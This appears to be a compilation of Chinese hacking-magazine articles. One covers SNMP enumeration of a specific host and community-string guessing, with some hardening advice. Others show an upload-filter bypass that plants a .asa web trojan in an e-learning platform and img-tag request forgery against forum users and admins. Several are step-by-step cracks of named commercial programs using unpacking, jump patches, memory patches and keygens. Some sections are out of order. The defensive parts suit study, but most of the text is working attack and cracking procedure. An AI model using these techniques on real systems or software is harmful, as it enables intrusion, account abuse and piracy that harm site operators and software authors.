根据上边提供的 OID，我们来利用 SNMP 探测系统信息。首先看一下 SNMP 获取的系统进程列表，使用格式：`C:\>snmputil walk 218.69.177.31 public .1.3.6.1.2.1.25.4.2.1.2`。Variable 后边一大串字符，最后的数字是进程的 ID，Value 就是进程名。通过这些信息，攻击者就可以分析出目标主机所运行的服务，比如使用了哪个杀毒软件、防火墙，是否打开了 Web 服务等。

`C:\>snmputil walk 218.69.177.31 public .1.3.6.1.4.1.77.1.2.25.1.1`，这条命令用于获取目标系统的用户列表（如图3）。Value 后边就是用户名，有了这个，攻击者就可以根据用户列表进行密码探测，减少入侵的盲目性。

`C:\>snmputil get 218.69.177.31 public .1.3.6.1.4.1.77.1.4.1.0`，这条命令用于获取目标系统的域名，不过从图4中可以看出这台机器没有 DNS 或 AD，所以 Value 的值表示为 WORKGROUP。

`C:\>snmputil walk 218.69.177.31 public .1.3.6.1.2.1.25.6.3.1.2`，这条命令用于获取目标系统安装的所有软件（如图5）。该列表可用于判断系统安装的软件、补丁及防护信息，从而分析系统/软件漏洞，增加入侵成功率。

`C:\>snmputil walk 218.69.177.31 public .1.3.6.1.2.1.1`，这条命令用于获取目标系统信息（如图6）。最重要的信息莫过于 `system.sysDescr.0`、`system.sysName.0`、`system.sysUpTime.0` 等 Value，分别反映工作平台、机器名与系统运行时长。

我想使用 Snmputil 获取 SNMP 信息唯一的缺点就是需要知道 OID 值，有兴趣的朋友可以将这几条命令做成 Bat，这样调用就方便多了。

### 2. 暴力破解

根据前面的介绍，各位读者肯定都知道 Community Strings 的重要性了，但并不是所有系统都是默认的 Community Strings，所以需要使用工具对它进行探测。这里推荐 LANguard Network Security Scanner，使用它可以轻易地探测 Community Strings。

LANguard Network Security Scanner 是一款相当不错的网络安全综合扫描工具，使用该工具可以方便快捷地查出目标主机的系统信息，这些信息包括：NetBIOS 名、网络共享信息、操作系统类型、Windows NT/2000 的 Null session 用户账号以及端口信息等。另外还包括口令猜解、端口信息和系统所存在的漏洞等，其官方网站为 http://www.gfi.com 。

这里不讨论其他使用方法，只说说如何猜测 Community Strings。启动 LANguard Network Security Scanner，在左边的 Tools 找到 Snmp Audit（图7），这就是猜测 Community Strings 的工具。左键单击就可以在右边看到它的界面，最右边的 Options 用于指定 Community Strings 文件（图8），这里已经有一个默认的了，当然也可以自己指定。最后在上边的方框中输入 IP 地址，然后点击 Retrieve 就可以进行探测了，如图9所示。

LANguard Network Security Scanner 还有很多骇人的功能，在此就不多说了，读者可以自己看看它的帮助文件，官方网站有下载（英文 PDF）。

## 三、SNMP 的防御

### 1. SNMP 自身的安全设置

在 Windows 中 SNMP 是以服务的形式存在，所以依次打开“开始”→“程序”→“管理工具”→“服务”→“SNMP Service”→“属性”→“安全”，修改 Community Strings，并根据需要设置尽量小的权限。并设置 SNMP 的“过滤”，如图10。只有在 SNMP 服务配置中添加的 IP 地址，才可以访问 SNMP。

#### 2. 加密 SNMP 的通讯

SNMP 的通讯全部是明文，这样任何一个 Sniffer 都可以抓取 SNMP 包，但 SNMP 本身又没有提供加密的方法，所以只能使用第三方工具，比如 IPSec。我们只需要添加一个 IPSec 规则，就可以很容易地加密 SNMP；再加上 IPSec 是系统自带，更是如虎得水！

首先打开管理工具，在控制台“IP 安全策略，在本地机器”中选择创建 IP 安全策略向导，按步骤完成后取消“使用添加向导”，再手动添加规则。在“IP 筛选器列表”“筛选器属性”中把源地址设为“我的 IP 地址”，目标地址设为“任何 IP 地址”，并选择镜像；协议类型选择 UDP，设置源端口与目标端口为 161（图11、图12），必要时再添加 UDP 162 规则。

返回新规则属性后，在“筛选器操作”中添加操作属性，选择“协商安全”（图13）并添加加密协议，确定后即可完成 IPSec 设置并启用。

另外根据实际情况设置 IPSec 的身份验证方法，默认是 Kerberos，也可以修改为预共享密钥，或者使用 CA 证书（可以用 OpenSSL 生成）。

## 四、总结

SNMP 作为网络中常见的一个服务，安全问题应该得到我们的重视。从上边的介绍中就可以看出来，SNMP 暴露了多少系统的敏感信息。不过相应的防御方法也给出了，希望大家能活学活用。最后提醒一下各位读者，如果使用 IPSec 加密 SNMP 通讯，则每台客户/服务器都需要添加相应的 IPSec 规则，否则无法正常通讯。

# 天空教室网络教学平台 V3.0

## 上传漏洞分析

Chris7

天空教室网络教学平台是一套网络教学系统……不过，这套系统也存在严重的上传漏洞。引起上传漏洞的文件默认存在类似于 `www.target.com/htmleditor` 的目录下，文件名为 `Getfile.asp`……前四者用于检查与处理，真正上传动作通过 `UploadDM.asp` 实现。

不许上传 asp 文件呀。我试着把文件后缀改为 `asa` 再上传，上传后无报错但也没有返回地址。我推断应该是上传成功了。拿出 WinsockExpert 抓包即可解决地址问题，图2是抓包结果。

图中 `/Uploaded/060305269969.asa` 就是木马地址，打开后成功执行（见图3）。

上传和抓包都建议在 IE 下进行，否则结果不稳定。该漏洞利用依赖前后端参数交互，很多信息（如上传后地址）需要通过抓包确认。

我们再看剩下的 `GetFlash.asp`、`GetMedia.asp` 和 `GetImage.asp`。按 `GetFile.asp` 的方式改后缀并上传会提示“文件类型不允许”，于是继续审计源码。

```javascript
if (isEmptyString(l_form.filename.value)) {
  alert('对不起请您先选择要上传的文件!');
  return false;
}
if (!isValidFileType(l_form.filename.value, '', g_FilterAspFile)) {
  alert('对不起，系统限制不允许上传ASP文件!');
  return false;
}
```

可见逻辑先判空，再用 `isValidFileType(..., g_FilterAspFile)` 校验类型。`GetFile.asp` 内未直接定义该变量，而是通过 `<script src="../../Js/CommonCheck.js"></script>` 引入。

```javascript
var g_FilterAspFile = '*.asp,*.aspx';
var g_FilterImageFile = '*.gif,*.bmp,*.jpg,*.jpeg,*.png,*.ico,*.emf,*.wmf';
var g_FilterFlashFile = '*.swf';
var g_FilterMediaFile = '*.asf,*.asx,*.wmv,*.avi,*.mpg,*.mpeg,*.rm,*.ra,*.ram,*.mov';

if (!isValidFileType(l_form.filename.value, '', g_FilterAspFile)) {
  alert('对不起，系统限制不允许上传ASP文件!');
  return false;
}
```

我们可以发现对于 GetFile.asp，系统只是过滤了 asp 和 aspx 两种类型，采用的是“不允许”的判断方式。结果遗漏了 asa、cdx 和 cer 等同样通过 asp.dll 来解释的文件类型，造成了这一上传漏洞。再来看看 GetFlash.asp、GetMedia.asp 和 GetImage.asp 中的判断又是如何进行的，就不难理解为什么只有 GetFile.asp 一个文件存在上传文件类型过滤不严的漏洞。

```javascript
if (IsEmptyString(U.form.filename.value)) {
  alert("对不起，请您先选择要上传的 Flash 文件");
  return false;
}
if (!IsValidFileType(U.form.filename.value, g_FilterFlashFile, "")) {
  alert("对不起，请您选择正确的 Flash 文件类型，允许的文件类型为 " + g_FilterFlashFile);
  return false;
}
```

我们很容易看到关键的判断函数就是 `IsValidFileType(U.form.filename.value, g_FilterFlashFile, "")`，`g_FilterFlashFile` 变量也是在 Js 目录下的 CommonCheck.js 文件中定义的。函数采用了“只允许”的判断方式，指定本地选择的文件类型必须是列表中的一项，自然不包括我们可爱的 asp、aspx、asa、cer、cdx 等类型。

在剩下的 GetMedia.asp 和 GetImage.asp 文件中对本地选择的文件类型合法性判断与 GetFlash.asp 文件中的代码完全类似，在此就不重复分析了。上面提到的几个文件也都一起收录在了本文光盘中。

关于这个漏洞的修补我提供一个简单的方案，就是在 Js 目录下的 CommonCheck.js 文件中，定义 `var g_FilterAspFile = ".asp.aspx.cer.cdx.asa";`，这样就可以过滤得比较充分。如果服务器支持别的脚本类型，比如 php、cgi、jsp，则相应修改变量定义即可。

本文仅作技术交流之用，望各位读者勿利用涉及的漏洞入侵相关站点。本文也仅是对天空教室系统的一个上传漏洞做了简要分析，希望能对大家有所用处。

## 网络世界混乱的起源——[img]标签杀威天下

剑心

世界混乱的起源是什么？答：是由女人的微笑引起来的……那么网络世界混乱的起源又是什么呢？答案当然是多种多样的，但其中一个很重要却总是被忽略的东西就是 Img 属性。本文要说的是 Img 标签正常引用带来的安全以及应用问题。

首先看下面这个代码，``，浏览器会根据 src 地址去寻找网络资源并显示图片。如果该资源不是图片类型文件（例如 exe 或 asp 页面），则会出现特定行为与风险。

```html
只是简单的测试<br>下面引入一个图片文件<br>
<br>引入的地址是
<script>document.write(document.images[0].src)</script>
```

然后写如下代码到 test.asp 中，代码就是把以前获取 Cookie 的代码给修改了一下：

```asp
<%
 dim fso,file
 Const ForReading=1, ForWriting=2, ForAppending=8
 set fso = Server.CreateObject("Scripting.FileSystemObject")
 path = Server.MapPath("imgtest.txt")
 set file = fso.OpenTextFile(path, ForAppending, TRUE)
 file.Write "有人来了"      '写内容
 file.Write Request.ServerVariables("QUERY_STRING")
 file.Write vbCrLf
 file.Close
 set file = nothing
 set fso = nothing
%>
```

把 test.html 文件和 test.asp 上传到空间的同一路径下，当有人访问 test.html 时，就在当前目录下的 imgtest.txt 文件里写上“有人来了”以及当前请求时提交的 QUERY_STRING 参数。刷新几次后访问 imgtest.txt（如图2），虽然图片无法显示，但证明确实访问了 test.asp，也就是 src 属性里的内容。

图2

到此可能有读者会想到，是否可以在 `img` 的 `src` 属性里写上木马页面呢？这是不行的，因为浏览器访问那个 `src` 指向的 `URL` 之后，会将服务器返回的代码当作图片来处理……如果把地址改成 `http://127.0.0.1:88/imgtest/test.asp?user=shell`，再访问引入图片的页面，就会发现 `URL` 里的参数也可以送出去，并且服务器上的 `CGI` 脚本会把请求当作普通请求来处理。

图3

图4

首先看看危害比较大、利用起来也比较容易的一个方法……比如访问 `logout.asp` 会清空当前用户的 `Cookie` 以及 `Session`，如果发个帖子用 `img` 标签引入这个地址，那么进入帖子的用户可能都会被强行退出。

```asp
Response.Cookies(Dvbbs_Forum.sn).path=Dvbbs.cookiepath
Response.Cookies(Dvbbs_Forum.sn)("username")=""
Response.Cookies(Dvbbs_Forum.sn)("password")=""
Response.Cookies(Dvbbs_Forum.sn)("userclass")=""
Response.Cookies(Dvbbs_Forum.sn)("userid")=""
Response.Cookies(Dvbbs_Forum.sn)("userhidden")=""
Response.Cookies(Dvbbs_Forum.sn)("usercookies")=""
If EnabledSession Then
  Session(Dvbbs.CacheName & "_" & UserID) = Empty
End If
```

看到了吧，只要访问这个页面，那么用户的 `Cookie` 以及 `Session` 都会被清空……不幸进入这个帖子的用户都将被强行退出。

图5

大家继续发挥自己的想象力！如果管理员看了我们的帖子，那么我们就能让管理员访问某个 `URL`……如果程序中取数据时是用 `Request("id")` 这样的方式，就可以向 `CGI` 脚本提交数据。很多 `asp` 文件在取值时采用 `Request("id")` 形式，给利用留下空间。

```asp
Sub Del()
  Dim Dnum
  If Request("username")="" Then
    Body=Body+"<br>请输入要删除的用户名"
    Exit Sub
  End If
  Sql="SELECT COUNT(*) FROM Dv_Message WHERE Sender='" & Request("username") & "'"
  Set rs = Dvbbs.Execute(Sql)
End Sub
```

这本来是必须有后台管理权限才能访问的，但如果我们构造一个 `URL`，让管理员在查看帖子或短消息时触发，就可能以管理员权限执行相应操作。

```text

```

大家也许觉得管理员看自己帖子的可能性不大，但短消息也支持和发帖一样的 `img` 标签……只要他一打开短信就会中招。总之，类似小细节如果不严格检查，会被利用；编写程序时应注意严谨。

> **菜刀箴言**：想不到一个小小的 `[img]` 标签居然可以被利用到这种程度……网络上有许多类似细小的东西，只要我们仔细研究，就会有所收获。

# 菜鸟脱壳之初体验

本人接触破解也有一段时间了，从最初的一窍不通到现在的略窥门径，这都得感谢《X档案》以及论坛上的各位兄弟。和广大《X》的 Fans 一样，我也是通过《X》而迷上计算机的。现在的软件不是这个壳就是那个壳，把我们这些热情的初学者都打下马来了，所以找了脱壳的资料学习了一段时间。下面是我的脱壳之旅，愿与广大菜鸟同享。

准备工具：OllyDbg、PEiD、WinHex、ImportRec、LordPE。运行了朋友发来的程序，原来是一个外挂程序。先用 PEiD 查查是什么壳吧，心里好有个底。我晕，是一个未知壳，如图1。

用 F1 也检测不出，不管了，直接用 OD 载入它。根据 OD 载入时的提示，判断它应该是一个压缩壳，心里就暗暗偷笑了，非得把你的马甲给脱下来不可。

看到这里我的头脑浮现的是用 ESP 定律脱壳，前辈们说用它对付压缩壳很管用。于是小心翼翼地按了两下 F8，到 `0041716E`。`00417173` 这句的时候，查看右边寄存器中 ESP 的值，`ESP=0012FFA0`，如图3。

接着在 OD 的命令行下输入如下命令：`hr 0012FFA0`，回车，F9 运行，接着我们来到如下的地方，如图4。

按两下 F8 之后，我们来到了 **00403831** 处。

好了，在这里 dump 保存为 `1.exe`，运行看看有什么反应，结果弹出一个警告窗口，如图5。

把这个图片发给了认识的一位朋友，他一看就哈哈大笑了，告诉我这个是附加数据的问题。我在《浅谈脱壳中的附加数据问题》里找到了线索，总结关键：大部分文件都有附加数据的起始位置需要重新定位。

先用 ImportRec 修复好输入表（其中 OEP=`3831`），接着用 LordPE 查看源程序区块，发现最后一个区块的 `ROffset=1200`，`RSize=0`，于是估计附加数据起始位置是 `1200`。使用 WinHex 打开源程序和修复好的 `1.exe`，按 Alt+G 输入 `1200`，可见从 `1200` 开始二者一致。

我们复制从 `1200` 开始到最后的全部数据到修复好输入表的 `1.exe` 末尾，保存后运行，程序终于可以正常运行。再用 PEiD 检查，显示 Microsoft Visual C++ 6.0。至此成功脱壳。

# 破解的线索和切入点

前几天一位朋友发过来一个软件【2005新发现驾驶员理论考试系统（全国通用版）】，要我帮他破解一下。我答应了他。都好久没有破解软件了，我一边回忆着以前的知识、技巧，一边翻出了一些教程来看……

下面先列出基本信息：拿到一个软件我们首先要做的是什么？安装呗（不要动砖头啊，事实如此嘛）！安装完后看它加了什么壳。拿出 Language2x（我使用的这个老了点，但还是挺好用的）……

我们运行一下，软件跳出个框，要求我们注册。软件作者一向很体贴我们 Cracker 的，把注册版和未注册版的区别写得很清楚：未注册版只能练习固定的 100 道题……

再看到软件注册是根据机器码来运算注册码的，这样的软件有两种方法能做出通用版本：一是制作注册机，二是爆破修改成注册版本……我们随便乱填些注册码，如图2，按“注册本软件”……

又蹦出来个框，要重启软件验证，如图3。以上就是破解启动验证型软件的常规方法，但是很遗憾，这个软件用 RegMon 看不到它写东西……

我们看到软件在启动时就跳出框来要求注册，那么对已经注册的版本它还会要求注册吗？肯定不会。除非是软件作者……现在我们来想，如果不要求我们注册了，软件会怎么反应？

到此为止，我们已经获得了待破解软件的基本信息，可以开始寻找破解的线索了。破解最重要的是要追踪到计算注册码的核心区域，或者尽量接近注册码运算区域……

- 1. 软件什么时候会去验证注册码是否正确？
- 2. 软件启动的具体“什么时候”是在验证注册码？
- 3. 软件怎么在启动的时候知道我们在上次启动的时候输入的注册码？

很好，这里我们就有了一个线索：软件在比较前会去读取保存的注册码！只要在这个时候下断点，就肯定会在注册码比较之前。我们再想，注册码会保存在什么地方？文件中？注册表中？

接下来就好办了，用 W32DASM 打开 `Driver2005.exe`，在“参考”中选择“对话框参考”，107、108 分别对应的十六进制数是 `6B`、`6C`，我们找到 `DialogID_006B`，双击，程序带我们到：

```asm
Referenced by a CALL at Address:
:00404B12

:0040AB50 6AFF            push FFFFFFFF
:0040AB52 68D9A84300      push 0043A8D9
:0040AB57 64A100000000    mov eax, dword ptr fs:[00000000]
:0040AB5D 50              push eax
```

```asm
0040AB5E 6489250000000000 mov dword ptr fs:[00000000], esp
0040AB65 51              push ecx
0040AB66 8B442414        mov eax, dword ptr [esp+14]
0040AB6A 53              push ebx
0040AB6B 56              push esi
0040AB6C 57              push edi
0040AB6D 50              push eax
...
Possible Reference to Dialog: DialogID:006B
0040AB70 6A6B            push 0000006B
0040AB72 89742414        mov dword ptr [esp+14], esi
0040AB76 E8C4040200      call 0042B03F
```

往上看，最上面那段 W32DASM 添加的注释告诉我们 `00404B12` 在引用这个对话框，我们追查过去：

```asm
* Referenced by a (U)nconditional or (C)onditional Jump
at Address:
|:00404AC1(C)

:00404B12 E839600000    call 0040AB50
```

再追到 `00404AC1` 那里去：

```asm
* Referenced by a (U)nconditional or (C)onditional Jump
at Address:
|:00404A64(C)

00404A8C 51              push ecx
00404A8D 8D78F0          lea edi, dword ptr [eax-10]
...
00404AB4 E8A7DBFFFF      call 00402660  ; 在这里验证比较
00404AB9 84C0            test al, al    ; 判断是否注册标志
00404AC1 744F            je 00404B12    ; 跳走就是功能限制版
```

注意后边那几行和注解，我们如果从 `DialogID_006C` 来追的话，会找到 `00404AC3`，可以明显看到那个 `je` 语句只要不跳走，程序就会调用 `DialogID_006C`，也就是注册后的对话框。既然知道这些了，那就开始破掉，把 `00404AC1` 那句给改掉，把 `74 4F (je)` 改为 `90 90 (nop)`。

看上去很简单，就这样成功了？我们运行看看，果然出来的是我们所希望的，如图6。但是先不要高兴得太早，进去后发现软件限制依然存在。

存在，就是只能做固定的 100 题。看起来还得再去砍一刀！记得刚才的那个注册比较 `call` 吗？`00404AB4 E8A7DBFFFF call 00402660`。我们再查查，靠哪里还在调用这个 `call`。

```asm
* Referenced by a CALL at Addresses:
|:00404AB4   :00409D78

00402660 6AFF            push FFFFFFFF
00402662 683C9D4300      push 00439D3C
00402667 64A100000000    mov eax, dword ptr fs:[00000000]
0040266D 50              push eax
```

`00404AB4` 就是我们刚刚改的那个，接下来就追 `00409D78`，来到下边：

```asm
00409D76 8BCF            mov ecx, edi
00409D78 E8E38FFFFF      call 00402660   ; 又在验证了
00409D7D 84C0            test al, al
00409D7F 7407            je 00409D88     ; 跳走就是功能限制版
...
00409D8A E851B8FFFF      call 004055E0
```

其实没注册就是跳过验证的那两句。现在老办法，nop 掉那个 `je`，`74 07 -> 90 90`，再运行看看，成功解除限制，每次考试题目是随机出现的 100 题了，顺利收工！

先不要走开，我们再来看看更好的爆破，那就是在核心比较 `call` 返回之前修改标志 `al`，返回后就是验证成功标志。这样就把比较 `call` 废掉了，无论程序比较几次都没关系。我们追到 `call` 里面去看看吧！

```asm
00403F84 8D4C24 4C       lea ecx, dword ptr ss:[esp+4C]
00403F88 E8 63D4FFFF     call Driver20.004013F0
00403F8D 32C0            xor al, al      ; 把 al 清零
...
00403FA6 5B              pop ebx
00403FA7 E8 0C910300     call Driver20.0041D0B8
00403FAC 81C4 B4000000   add esp, 0B4
00403FB2 C3              retn
```

就是这句 `00403F8D 32C0 xor al, al` 把我们的 `al` 清零了，现在就把这个 `xor` 语句给 nop 了，`32 C0 -> 90 90`。结果发现这样也搞定了。这下就剩下运算法写注册码了，这个就不是我们菜鸟管的了。

可以看到，破解软件最重要的就是找到线索，找到干线索就有了切入点，可以很顺利地搞定。同时在找线索时一定要发散思维，千万不要在一棵树上吊死。（本文涉及工具：Language2k、eXeScope、W32DASM、OllyDbg 等）

## 来300一鸡破解2版

wcrow

BadCopy 是一个可以从坏掉的软件、光盘甚至受损硬盘上恢复数据的工具……对于破解来说最简单的就是爆破了，找到关键跳，修改一下就可以了。因此，破解一个软件最关键的就是找到关键跳。不过，这个软件的关键跳却不太好找。

| 条件跳转 | 说明 |
|---|---|
| JC/JNC/JZ/JNZ/JS... | 常见条件跳转指令对照表（图1） |

图1

先补习一下跳转指令吧，如图1。当然，还有一个无条件跳转指令 `JMP`，无条件跳转。知道了这些，我们离成功就近了一大步了。

图2

先用 PEiD 查壳……这个当然也不例外，如图2。注册一下，随便输个注册码试试，理所当然地报错了，如图3。

图3

由此可知，大概要下 `SendMessage` 断点……在命令行输入：`bpx sendmessagea`……断到 `0043A2F1` 处。

```asm
0043A2F0   50              push eax
0043A2F1   E8 56D8F6FF     call <jmp.&user32.SendMessageA>
0043A30A   C3              retn
```

```asm
004F3F6C   E9 91000000     jmp BadCopy.004F4002
004F3F72   8BC3            mov eax,ebx
004F3F74   E8 B85EFFFF     call BadCopy.004F3530
004F3F78   84C0            test al,al
004F3F7A   74 71           je short BadCopy.004F3FED
004F3F7C   8D55F0          lea edx,dword ptr ss:[ebp-10]
004F3F7F   B8 5C2D4F00     mov eax,BadCopy.004F2D5C
```

如何知道这里就是关键跳了呢？……把 `74 71 je short BadCopy.004F3FED` 里的 `je` 换成 `jne`。

`BadCopy.004F3FED` 改成 `jnz short BadCopy.004F3FED`……F9 运行弹出的是成功提示，如图4。

图4

在从我们断到的地方到关键跳之间的路上，我们是不是看见了输入的注册码……这就是注册码判定过程，和爆破无关。

```asm
004F3612   8B38            mov edi,dword ptr ds:[eax]
004F3614   FF57 0C         call dword ptr ds:[edi+C]
004F3617   8B45 DC         mov eax,dword ptr ss:[ebp-24]
004F361A   8D55 E0         lea edx,dword ptr ss:[ebp-20]
004F361D   E8 065BF1FF     call BadCopy.00409128
004F3622   8B55 E0         mov edx,dword ptr ss:[ebp-20]
```

```asm
004F3561   64 8920         mov dword ptr fs:[eax],esp
004F3564   B8 2CB26000     mov eax,BadCopy.006B22C
004F3569   BA C83C4F00     mov edx,BadCopy.004F3CC8
ASCII "UnRegistered User"
004F356E   E8 4415F1FF     call BadCopy.00404AB4
```

```asm
004F3CC0   FFFFFFFF        dd FFFFFFFF
004F3CC4   10000000        dd 00000010
004F3CC8   55 6E 52 65...  ascii "UnRegistered User"
004F3CD8   72 00           ascii "r\0"
004F3CDA   00              db 00
004F3CDB   00              db 00
```

按 Ctrl+G 填入 `004F3CC8` 来到下边……把 ASCII 码换成自己想要的字符串即可，如图5。

图5

图6

就像刚刚我们保存的改跳转一样，把这个和改的跳转一起保存成一个新文件，到这里我们的破解工作就完全结束了……破解其实很简单，只有想不到，没有做不到。

# TIT 破解终极攻略——软件安全之 W32dsm 静态分析

# 一、破解定式之 W32dsm 静态分析篇

其实破解并没有什么定式，因为各个软件的保护方式都不相同。但是在破解众多注册软件的过程中却有很多方法和技巧是相同的，比如说静态分析在破解过程中应该是不可缺少的步骤。因此所谓“定式”，其实是一些常见规律。

> **名词解释：**  
> W32dsm：一款反汇编工具，通常用来反汇编程序查找注册信息。其实它也是一款静态观察利器。由于其静态反汇编功能特别出众，在破解界有“屠龙”之称。  
> 静态分析：使用工具对程序进行反汇编，阅读程序汇编代码，分析注册流程。静态分析时程序不运行，这是与动态跟踪的根本差别。

本文主要讲述如何使用 W32dsm 进行反汇编，静态分析软件注册流程，并通过修改关键跳转实现注册破解。

- 工具：W32dsm、PEID、WASPACK、WinHex
- 程序：QQ 斗地主助手
- 注册类型：注册文件
- 破解方案：修改关键跳转（只做）

安装并运行 QQ 斗地主助手程序，观察其注册方式及未注册功能限制，如图1。我们可以看到，注册方式是“注册文件”。未注册限制是每局只能两把牌。一般比较常见的注册方式有“序列号”“注册码”“网络验证”等。记住这些信息，我们进行下一步。


# 二、查壳、反汇编 QQ 斗地主助手程序

破解之前查壳是必经之路，因为如果程序是加壳的，在我们反汇编时一般无法正常查到注册信息，加壳后的注册信息一般会变成无法阅读的乱码。所以在 QQ 斗地主助手的安装目录里找到 QQDDZ.exe，使用 PEID 查看程序是否加壳，如图2。

我们看到程序的 EP 区段为 aspack。程序加壳信息是：ASPack 2.12 -> Alexey Solodovnikov。找到了加的是什么壳，就可以对症下药了。ASPack 2.12 是比较常见的壳，使用 WASPACK 就可以轻松解决。运行脱壳工具 ASPack 2.12，选择 QQDDZ.exe，看到“Unpack done”表示脱壳完成，如图3。在原路径将会生成脱壳后的文件 UnPacked.exe。


我们也可以发现脱壳前后文件大小不一样了，因为 ASPack 是一个有压缩功能的壳，压缩率还是比较高的。


脱壳完成后就可以使用 W32dsm 来反汇编了。运行 W32dsm 加载 UnPacked.exe，会出现一个 W32dsm 的主窗口，显示程序的反汇编代码。

我们会发现代码数量很大，而要找的注册部分代码在什么地方呢？这就需要查找注册信息关键字了。选择“Refs”→“String Data References”查找注册信息字符串，如图4。

如图5所示，找到了“软件已注册”的提示信息。找到相关信息后就可以来到相应代码处。我们用鼠标反复双击它，在代码窗口观察到有两处注册信息，如图6、图7。

好了，到此我们已经找到了注册成功信息的代码位置，就是：0045785B 和 00457916。下一步就是在注册成功信息附近查找到关键跳转指令的位置并修改它们了。


# 三、兑现按钮代码，找到关键跳转指令

先双击“软件已注册”字样，来到 0045785B 处，向上找跳转指令，发现最近的跳转指令就是 `je 00457881`，如图8。


简单分析一下：程序运行到 00457859，如果满足上一句 `test al, al` 等于 0，则程序跳到 00457881 继续运行；如果不等于 0，程序继续运行就来到 0045785B 注册成功。我们可以看出 00457859 处很有可能是关键跳转指令，如图9。

继续来到 00457916 处向上阅读，和上面一样，我们猜测 004578EE 是关键跳转指令，如图10。

通过上面简单分析，可以猜到关键跳转有两处，分别是：00457859 和 004578EE。下一步就是修改跳转指令了。那到底我们的猜测是不是正确答案呢？接下来就可以验证了。

# 四、修改跳转指令，完成破解最后一步

在关键跳转指令上鼠标右击选择“Hexedit”，进行机器码修改，如图11。


在弹出的对话框中修改汇编指令的机器码。我们知道 `je` 的机器码是 `74`，它的相反指令 `jne` 的机器码是 `75`，我们就将指令机器码中的 `74` 改成 `75`，如图12。

改完后点“Save”保存，00457859 处也同样修改。


但是保存后发现程序运行不了，可能是相关插件出了问题，那我们就换用 WinHex 来完成上面两处修改。打开 WinHex 加载脱壳后的程序。要想对关键跳转指令进行修改，就得先来到指令代码处。点“位置”→“转到偏移量”，如图13。


对话框中写上关键跳转的偏移地址。什么是偏移地址呢？上面我们已经知道关键跳的位置是 00457859 和 004578EE，偏移地址就是在它们的基础上减去基址 400000 就可以了，如图14。


点“确定”来到代码处，光标停止的位置就是我们要修改的地方了，直接修改 `74` 为 `75`，如图15。


右击它点“软件注册”，如图16。开心的画面出现了，通过上面的努力终于看到了我们的劳动成果：“软件已注册”，并且“注册”按钮已经变灰，说明我们已经成功注册，如图17。

# 六、总结

- 静态及汇编工具 W32dsm 的基本使用方法
- 程序的查壳与简单脱壳
- 关键跳转指令的判断
- 用 WinHex 修改程序的机器码

（本文涉及到的工具：PEID、W32dsm 8.93、QQDDZSetup、waspack、WinHex 12.75 SR-6 HA，光盘有收录）

# 五、运行 UnPacked.exe 检验我们的成果

运行 UnPacked.exe 会发现没有一开始运行 QQDDZ.exe 时出现的注册码框了，但却发现任务栏有个“斗地主”图标……

# 破解 MP3 格式转换工具——程序注册码机内嵌法

前些日子买了一部可以听 MP3 的手机，可是我电脑上有不少歌曲是 WMA 格式的，手机播放不了！于是从网上找了一个可以转音乐格式的软件。在没有注册的情况下，该软件只能试用 20 天，并且每次转歌只能转 60%。郁闷！看看自己能不能破。毛主席说得好：“自己动手，丰衣足食”。


点注册出现对话框，如图1，还是老方法，看它有没有加壳，如图2。是用 PEncrypt 3.1 Final 加的壳。于是我用 QUnpack 试试，今天运气真是不错，非常顺利地脱了壳。双击运行，可以正常运行，太走运啦！


下面就是正式破解了，打开 C32Asm，加载 WMAMP3Converter_.exe。按好“CTRL+K”查看字符串调用，最终在一堆乱码中找到了“注册成功，感谢您的注册”“注册码无效！请输入一个有效的注册码”等字符串，如图3。

双击其中的“注册码无效”，再向上走一点就是“注册成功了”，如图4。


下面我们看看到底是哪条语句让我们跳过了“成功”而跳到“失败”的。在“注册成功”之前有两个跳转，仔细看一下就能很容易看出第一个跳转是跳过了“注册成功”而跳到失败的。所以在这个跳转处右击，选择“对应 HEX 编辑”，把 `75` 改成 `74`，保存。再打开我们改好的程序，点注册，随便输点东西成功！

- 做文件补丁：打开 keymake.exe，“其它”→“制作文件补丁”，分别选择原文件和破解后的文件，点制作并保存（注意把 WMAMP3Converter_.exe 改回 WMAMP3Converter.exe）。
- 制作内存补丁：同样在“其它”→“制作内存补丁”。


```asm
0048DCC7  8B45F8
0048DCC9  85C0
0048DCCB  75 44
0048DCCD  8B4DF8
CALL WMAP3Co.00408AA4
TEST EAX,EAX
JNZ SHORT WMAP3Co.0048DD17
MOV ECX,DWORD PTR SS:[EBP-8]
```


选好程序，再点下面的“添加”，只要把 0048DCD1 中的 `75` 改成 `74` 即可。修改长度是 2，原始指令是 `7544`，修改指令是 `7444`，最后点生成。

- 制作内存注册机：先在内存中查找注册码并动态跟踪，定位到前面修改的跳转位置。经过调试后可确认真正的注册码信息，然后在 keymake 中选择“内存注册机”并添加地址与字节规则。


> （本文涉及到的工具：Unpack、C32Asm、keymake.exe、OD，光盘有收录。）

# 一段多解读 Crack

## 方法一：最简单的改逆向破解

学习破解已有一段时间，在同学帮助下对破解初步知识有了了解，也认识到汇编基础的重要性。本文分享阶段性学习成果与体会。

软件破解方法并非单一固定，条条大路通罗马。只要找到其中一种可行路径即可解决问题，但学习过程中应多尝试不同方法以加深理解。

本文目标软件是 AltoMP3 CD Ripper V4.0，可将音乐 CD 提取并编码为 MP3，支持 WAV 与 MP3 转换，其限制界面如图1。


## 第一步、查壳脱壳

破解前先进行查壳。常用工具为 PEiD，检测后可见程序加了壳，并显示由 Microsoft Visual C++ 6.0 编译。之后可用 OllyICE/OllyDbg 进行加载调试。


## 第二步、注册试验

对话框警告我们（图3）。

那么程序就不会经过 0042AAA6，也就是说 `0042AA98 je 0042AADE` 很有可能是关键跳（图6）。


图3


图6

也就是说如果我们对这一动作下断，就可以来到注册流程附近。下断方法：`bpx getwindowtexta`。以往我们都是通过记录注册失败信息，然后反汇编程序来查找注册信息，并找到注册流程部分。而我们现在用的是动态下断的方法，好处就是在找不到注册失败信息的时候可以用，并且操作也简单，还不用耗费精力去大量反汇编字符串里寻觅信息。

## 第三步、反汇编程序找关键跳

用 OllyICE 加载程序，在命令框里输入下断命令：`bpx getwindowtexta` 回车（图4），可以看到程序被断地址和相关信息（图5）。


图4


图5

现在按“F9”运行程序，重复上面的注册过程，随便填写注册信息后点“注册”，程序会被断下。简单看一下这里的代码，并没有什么特殊发现。现在已经进入了注册流程，按“F8”单步步过跟踪，直到弹出注册失败信息，并记住所按 F8 次数（以后有用）。当刚弹出注册失败信息时，程序运行到 0042AAA6 处，也就是说程序经过 0042AAA6 这个 CALL 指令就会出现注册失败。向上看到跳转指令 `0042AA98 je 0042AADE`，如果这个跳转实现，

## 第四步、修改程序改造爆破

